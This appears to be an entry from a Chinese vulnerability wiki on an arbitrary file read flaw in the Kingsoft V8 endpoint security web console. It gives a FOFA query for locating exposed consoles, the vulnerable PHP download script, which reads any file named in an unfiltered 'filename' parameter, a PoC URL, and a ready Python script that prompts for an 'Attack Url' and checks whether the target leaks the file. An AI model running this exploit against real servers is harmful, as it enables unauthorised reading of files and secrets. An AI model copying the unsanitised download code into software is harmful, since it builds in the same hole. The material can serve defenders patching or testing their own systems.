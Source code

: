 ```yaml
---
title: 金山 V8 终端安全系统 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 金山
---
```


# 金山 V8 终端安全系统 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

> [!NOTE]
>
> 金山 V8 终端安全系统 

## FOFA

> [!NOTE]
>
> title="在线安装-V8+终端安全系统Web控制台"

## 漏洞复现

存在漏洞的文件 **/Console/htmltopdf/downfile.php**

```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```

文件中没有任何的过滤 通过filename参数即可下载任意文件

POC为

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```

![](/img/20210924013542630412.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 任意文件读取漏洞                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/htmltopdf/downfile.php?filename=downfile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "$filename" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 , 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924013542880503.png)

## Goby & POC

> [!NOTE]
>
> Kingsoft V8 Arbitrary file read

![](/img/20210924013543260221.png)